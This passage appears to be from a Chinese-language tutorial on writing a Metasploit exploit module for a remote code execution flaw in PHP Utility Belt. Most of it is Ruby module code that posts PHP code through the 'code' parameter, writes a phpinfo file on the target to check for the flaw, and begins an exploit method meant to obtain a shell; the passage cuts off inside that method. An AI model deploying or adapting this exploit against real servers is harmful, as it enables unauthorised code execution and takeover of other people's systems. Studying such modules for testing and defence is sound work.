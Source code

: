 我们关注其中两个：`method`和`uri`。

### 编写模块

模块要完成的任务：

- 创建POST请求
- 利用code参数将payload发送给服务器
- 获得shell

模块代码如下：

```ruby
class MetasploitModule < Msf::Exploit::Remote
    Rank = NormalRanking
    include Msf::Exploit::Remote::HttpClient

    def initialize(info = {})
        super(update_info(info,
            'Name'      => 'PHP Utility Belt RCE',
            'Description' => %q{
                This module exploits a RCE vuln in PHP Utility Belt
            },
            'Platform'  => 'php',
            'Author' => 'Rambo',
            'Targets'   => [
                ['PHP Utility Belt', {}]
            ],
            'Payload'       => {
                'Space'    => 2000,
                'DisableNops' => true
            },
            'DisclosureDate' => 'May 16 2015',
            'DefaultTarget' => 0
        ))
        register_options(
        [
            OptString.new('TARGETURI', [true, 'The Path to PHP Utility Belt', '/ajax.php']),
            OptString.new('CHECKURI', [false, 'Checking Purpose', '/info.php'])
        ], self.class)

    end
    def check
        send_request_cgi(
            'method' => 'POST',
            'uri' => normalize_uri(target_uri.path),
            'vars_post' => {
                'code' => "fwrite (fopen('info.php', 'w'), '<?php echo phpinfo();?>');"
            }
        )
        resp = send_request_raw(
            'method' => 'GET',
            'uri' => normalize_uri(datastore['CHECKURI'])
        )
        if resp.body =~ /phpinfo()/
            return Exploit::CheckCode::Vulnerable
        else
            return Exploit::CheckCode::Safe
        end
    end
    def exploit
        send_request_cgi(
            'method' => 'POST',
            'uri' => normalize_uri(target_uri.path),
            'vars_post' => {
```